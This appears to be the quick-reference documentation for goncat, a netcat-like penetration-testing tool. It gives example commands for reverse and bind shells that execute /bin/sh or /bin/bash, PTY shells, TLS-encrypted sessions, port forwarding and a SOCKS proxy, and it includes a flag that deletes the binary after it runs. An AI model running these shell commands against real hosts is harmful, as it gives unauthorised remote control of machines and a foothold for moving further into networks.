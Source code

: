 ```bash
# Reverse shell (most common)
goncat master listen 'tcp://*:PORT' --exec /bin/sh
goncat slave connect tcp://MASTER_IP:PORT

# Bind shell
goncat slave listen 'tcp://*:PORT'
goncat master connect tcp://SLAVE_IP:PORT --exec /bin/sh

# Interactive PTY shell
goncat master listen 'tcp://*:PORT' --exec /bin/bash --pty

# Encrypted with authentication
goncat master listen 'tcp://*:PORT' --ssl --key PASSWORD --exec /bin/sh
goncat slave connect tcp://MASTER_IP:PORT --ssl --key PASSWORD

# Port forwarding
goncat master listen 'tcp://*:PORT' --exec /bin/sh -L LOCAL:REMOTE
goncat master listen 'tcp://*:PORT' --exec /bin/sh -R REMOTE:LOCAL

# SOCKS proxy
goncat master listen 'tcp://*:PORT' --exec /bin/sh -D 1080
```

### Flag Quick Reference

| Flag | Shorthand | Master | Slave | Description |
|------|-----------|--------|-------|-------------|
| `--ssl` | `-s` | ✓ | ✓ | Enable TLS encryption |
| `--key` | `-k` | ✓ | ✓ | Password for mutual authentication |
| `--verbose` | `-v` | ✓ | ✓ | Verbose error logging |
| `--timeout` | `-t` | ✓ | ✓ | Timeout in milliseconds |
| `--exec` | `-e` | ✓ | ✗ | Program to execute |
| `--pty` | | ✓ | ✗ | Enable PTY mode |
| `--log` | `-l` | ✓ | ✗ | Session log file |
| `--local` | `-L` | ✓ | ✗ | Local port forwarding |
| `--remote` | `-R` | ✓ | ✗ | Remote port forwarding |
| `--socks` | `-D` | ✓ | ✗ | SOCKS proxy |
| `--cleanup` | `-c` | ✗ | ✓ | Delete binary after run |

---

*This documentation was generated from commit `bc7e6e8` on `2025-10-23`. For the latest updates, see the [goncat repository](https://github.com/DominicBreuker/goncat).*

